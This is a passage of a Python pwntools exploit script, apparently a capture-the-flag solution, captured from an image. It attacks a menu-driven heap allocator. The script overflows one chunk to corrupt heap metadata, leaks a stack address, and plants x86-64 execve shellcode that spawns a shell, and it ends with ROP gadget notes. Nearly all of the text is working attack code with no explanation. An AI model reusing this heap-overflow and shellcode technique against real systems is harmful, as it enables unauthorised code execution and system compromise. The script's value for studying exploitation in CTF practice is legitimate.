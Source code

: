```py
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
source ~/Downloads/pwndbg/gdbinit.py
'''.format(**locals())

io = None

io = start()

def alloc(idx, size, data):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"Index: ", str(idx).encode())
    io.sendlineafter(b"Size: ", str(size).encode())
    io.sendlineafter(b"Data: ", data)


def delete(idx):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"Index: ", str(idx).encode())

def show(idx):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"Index: ", str(idx).encode())

def edit(idx, size, data):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"Index: ", str(idx).encode())
    io.sendlineafter(b"Size: ", str(size).encode())
    io.sendlineafter(b"Data: ", data)

alloc(0, 0x500-1, b"A")
for i in range(1, 5):
    alloc(i, 1000, b"vv")

edit(4, 0x400 + 5*8, b"X"*0x400 + pwn.p64(0x208000)*3 + pwn.p64(0x000) + pwn.p64(0))

alloc(5, 1000, b"A")
show(5)
io.recv(0x100)

stack = pwn.u64(io.recv(8))
pwn.log.info(f"stack: {hex(stack)}")

edit(4, 0x400 + 5*8, b"A"*0x400 + pwn.p64(0x208000)*3 + pwn.p64(0x000) + pwn.p64(0))

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

alloc(14, 1000, shellcode)

"""
0x0000000000201fcf : pop rax ; syscall
0x0000000000203147 : pop rdi ; ret
```